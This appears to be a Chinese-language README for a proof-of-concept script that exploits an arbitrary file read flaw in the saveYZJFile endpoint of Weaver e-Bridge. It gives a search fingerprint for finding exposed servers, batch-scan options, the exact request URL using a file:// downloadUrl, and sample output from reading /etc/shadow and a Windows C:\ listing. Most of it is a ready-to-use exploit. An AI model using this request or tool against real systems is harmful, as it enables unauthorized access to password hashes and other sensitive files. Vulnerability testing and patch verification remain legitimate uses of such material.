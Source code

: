 # fanweiOA-saveYZJFile任意文件读取漏洞

# 漏洞描述
泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

# 影响版本
泛微云桥 e-Bridge 2018-2019 多个版本

# 网络测绘
title="泛微云桥e-Bridge"

# 使用方法
```shell
optional arguments:
  -h, --help                    show this help message and exit
  -i IP, --ip IP                单个ip地址
  -l LIST, --list LIST          ip列表 - 批量扫描
  -t TARGET, --target TARGET    访问的目录或文件 - 完整路径
```


# 例子
```shell
python poc.py -i xx.xx.xx.xx

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable
```

Linux系统
```shell
python poc.py -i xx.xx.xx.xx -t etc/shadow

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable

------------results------------
root:*:19001:0:99999:7:::
bin:*:15980:0:99999:7:::
daemon:*:15980:0:99999:7:::
adm:*:15980:0:99999:7:::
......
```

Windows系统
```shell
python poc.py -i http://xx.xx.xx.xx:8088 -t C:\

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: windows http://xx.xx.xx.xx:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
[+] http://xx.xx.xx.xx:8088 maybe vulnerable

------------results------------
$Recycle.Bin
360SANDBOX
Boot
bootmgr
Config.Msi
Documents and Settings
inetpub
pagefile.sys
PerfLogs
ProgramData
Program Files
Program Files (x86)
Recovery
System Volume Information
Users
```





